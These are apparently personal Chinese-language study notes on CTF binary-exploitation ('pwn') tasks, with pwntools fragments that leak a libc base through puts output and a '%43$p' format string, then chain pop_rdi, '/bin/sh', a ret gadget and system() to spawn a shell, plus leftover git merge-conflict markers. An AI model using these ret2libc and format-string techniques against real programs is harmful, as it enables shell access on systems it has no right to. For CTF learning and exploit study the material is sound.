 # 1

附件带有libc.so.6的文件，不要使用one_gadget,打不通的概率高

使用：

```
puts_real=u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
libc_base=puts_real-libc.sym['puts']
system_real=libc_base+libc.sym['system']
binsh=libc_base+libc.search('/bin/sh\x00').__next__()
```

# 2

在调用使用函数的地址的时候，要从传入参数的地址开始。我从别的地方开始会打不通。

![[Pasted image 20240923212753.png]]

# 3

这里面的 int(io.recv(8),16)代表的不是从8位到16位的接收，而是接收8个字符，也就是4个字节，来转化成16进制。这题也是32位的题目。

```
#泄漏libc基址
payload = b'%43$p'
io.sendline(payload)
io.recvuntil("This is the wrong password: 0x")
libc_start_main = int(io.recv(8),16) - 147
#libc = LibcSearcher("__libc_start_main",libc_start_main)
print("libc_start_main:" + hex(libc_start_main))
print(hex(libc.symbols['__libc_start_main']))
libc_base = libc_start_main - libc.symbols['__libc_start_main']
print("libc_base:",hex(libc_base))
<<<<<<< HEAD
```

# 4

栈溢出做pwn 题跳转到system("/bin/sh")报错
打开gdb调试发现报错：
![[Pasted image 20240911103909.png]]
得知glibc2.27以后引入xmm寄存器, 记录程序状态, 会执行movaps指令, 要求rsp是按16字节对齐的, 所以如果payload这样写
payload = cyclic(0x20 + 8) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(system_addr)
弹出的数据是奇数个, 本地就会报错
但是改成偶数个pop
payload = cyclic(0x20 + 8) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(ret_addr) + p64(system_addr)
就能打通本地了

原因:
是xmm寄存器的问题，当glibc版本大于2.27的时候，系统调用system("/bin/sh")之前有个xmm寄存器使用。要确保rsp是与16对齐的，也就是末尾必须是0.


# 5
=======
```
>>>>>>> c0505fef4e46fa0e0cb05e323ece14b29d7ff65e
